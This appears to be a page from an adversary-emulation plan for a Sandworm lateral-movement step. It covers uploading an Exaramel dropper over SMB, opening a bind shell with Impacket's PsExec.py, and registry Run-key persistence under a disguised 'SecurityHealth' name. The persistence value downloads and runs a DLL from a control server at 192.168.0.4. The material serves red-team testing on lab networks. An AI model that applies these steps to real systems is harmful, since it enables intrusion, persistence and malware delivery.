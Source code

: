 <br>

## Test 8 (Steps 15-17)

### Step 15 - Move laterally to Windows host

:microphone: `voice track`

During this step, Sandworm uses credentials gained from step4 to move laterally to gammu/10.0.1.7 as local admin user fherbert.

The way this works is Sandworm first uploads an Exaramel dropper to disk using smbclient with valid credentials.

The Exaramel dropper is uploaded to `C:\\Windows\\wsmprovav.exe`.

Sandworm then establishes a bind shell to gammu using PsExec.py from the Impacket framework.

From the bind shell, Sandworm establishes registry persistance as user fherbert.

Sandworm then disconnects from the bindshell.

Notionally, the legitimate fherbert user logs in via RDP.

This causes the registry persistence to execute the Exaramel dropper.

The exaramel dropper downloads and executes an Exaramel DLL.


```
Compromised user info:

User:	fherbert@WORKGROUP

System: 10.0.1.7 / gammu

PsExec Service: Windows Check AV

File write: C:\\Windows\\wsmprovav.exe, C:\\Windows\\wsmprovav.dll

Registry Path: HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run

Key: SecurityHealth

Value: C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll

Exaramel-Windows C2: 192.168.0.4:443 HTTPS

```

#### ☣️ Procedures

:warning: If you do not already have the Control Server from Step 13 running, execute the following. Otherwise, skip to the next :warning:.

Open a new terminal tab (ctrl+shift+t) and start the control server.
